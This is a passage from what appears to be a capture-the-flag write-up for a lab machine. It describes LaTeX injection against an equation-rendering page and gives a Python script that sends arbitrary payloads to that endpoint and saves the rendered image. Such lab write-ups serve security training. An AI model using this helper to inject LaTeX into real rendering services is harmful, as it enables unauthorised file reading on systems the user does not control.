 ## Initial Foothold
---

Looking for potential ways to exploit the LaTeX rendering feature came across a method known as [LaTeX injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection) and a helpful [blog post](https://0day.work/hacking-with-latex/) on the topic.
To simplify the process, I've also wrote a Python script use the functionality via CLI.

```python
#!/usr/bin/env python

import re
import sys

import requests
import urllib3
import subprocess

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

payload = sys.argv[1]

url = "http://latex.topology.htb/equation.php"
proxies = {"http": "http://127.0.0.1:8080"}
# proxies = {"http": ""}

file_path = "output.png"

params = {"eqn": f"{payload}", "submit": ""}

try:
    session = requests.Session()

    response = session.get(url=url, params=params, proxies=proxies)
    if response.status_code == 200 and response.content:
        image_data = response.content
        with open(file_path, "wb") as file:
            file.write(image_data)

        print(f"Image downloaded and saved as '{file_path}'")
        subprocess.run(["xdg-open", file_path])
    else:
        print(f"Failed to retrieve the image with code: {response.status_code}")

    session.close()

except Exception as e:
    print(f"Exception raised: {e}")
```

Using this script, I can replicate the previous image.

